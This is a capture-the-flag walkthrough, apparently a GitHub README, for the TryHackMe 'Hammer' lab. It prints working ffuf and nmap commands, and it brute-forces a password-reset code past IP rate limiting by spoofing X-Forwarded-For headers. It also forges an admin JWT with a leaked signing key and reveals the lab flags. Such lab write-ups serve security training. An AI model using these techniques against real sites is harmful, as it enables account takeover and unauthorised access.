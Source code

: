 
# 🔨 TryHackMe: Hammer

> A vulnerable web app focused on login bypass, rate limit abuse, and JWT token manipulation.  
> 💡 Skills practiced: Port scanning, directory brute-force, request fuzzing, session manipulation, and JWT tampering.

---

## 🎯 Objectives

- Enumerate services and directories
- Bypass rate-limited password reset mechanism
- Manipulate JWT token to gain admin access
- Capture both user and root flags

---

## 🔧 Tools Used

- `nmap` – Full port scan  
- `ffuf` – Directory and code brute-forcing  
- `Burp Suite` – For intercepting and analyzing requests  
- `printf`, `head` – Wordlist generation for brute-force  
- `jwt.io` – For decoding and re-signing JWTs  
- Firefox Dev Tools – Cookie inspection

---

## 🔍 Enumeration

Initial full-port scan using:

```bash
nmap -p- -sV 10.10.63.242
```

Result:

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu
1337/tcp open  http    Apache 2.4.41
```

Visited `http://10.10.63.242:1337` — login page detected.

---

## 💡 Web Discovery & Directory Brute-Forcing

Inspected source code and found a hint:
```html
<!-- Dev Note: Directory naming convention must be hmr_DIRECTORY_NAME -->
```

Ran ffuf to discover hidden directories:

```bash
ffuf -u http://10.10.63.242:1337/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Found:
- `/hmr_logs/error.logs` — contained:
  - User: `tester`
  - Directory: `/restricted-area`

Tried password reset on tester@hammer.thm → asked for a 4-digit code

---

## 🔐 Bypassing Password Reset Rate-Limit

The form was IP rate-limited. I generated:

```bash
# Generate all 4-digit codes
printf "%04d\n" {0..9999} > count-9999.txt

# Create 1000 fake IPs
for X in {0..255}; do for Y in {0..255}; do echo "192.168.$X.$Y"; done; done > fake_ip.txt
head -n 1000 fake_ip.txt > fake_ip_cut.txt
```

Brute-forced the reset code with `ffuf`:

```bash
ffuf -w count-9999.txt:W1 -w fake_ip_cut.txt:W2 \
-u "http://10.10.63.242:1337/reset_password.php" \
-X POST -d "recovery_code=W1&s=80" \
-b "PHPSESSID=YOUR_SESSION_HERE" \
-H "X-Forwarded-For: W2" \
-H "Content-Type: application/x-www-form-urlencoded" \
-fr "Invalid" -mode pitchfork -fw 1 -rate 100 -o output.txt
```

Got the code ✅ → reset password → logged in as `tester`.

---

## 🚩 User Flag

After login:
```txt
THM{AuthBypass3D}
```

---

## 🔍 JWT Manipulation for Admin Access

Source code revealed JWT in JS:

```js
var jwtToken = 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1Ni...';
```

Decoded at `jwt.io`, changed role to `"admin"`.

Re-signed using `.key` found in `/hmr_logs/`.

Replaced the `Authorization` header:

```http
Authorization: Bearer MODIFIED.JWT.HERE
```

Gained admin access ✅

---

## 🏁 Root Flag

Accessed `/home/ubuntu/flag.txt`:
```bash
cat /home/ubuntu/flag.txt
```

Flag:
```txt
THM{RUNANYCOMMAND1337}
```

---

## 📚 What I Learned

- Enumerating hidden directories using `ffuf`  
- Bypassing IP-based rate limits with fake headers  
- Brute-forcing numeric codes using wordlists  
- Analyzing and forging JWT tokens using leaked key  
- Login logic & privilege escalation through web abuse

---

✅ End of walkthrough.
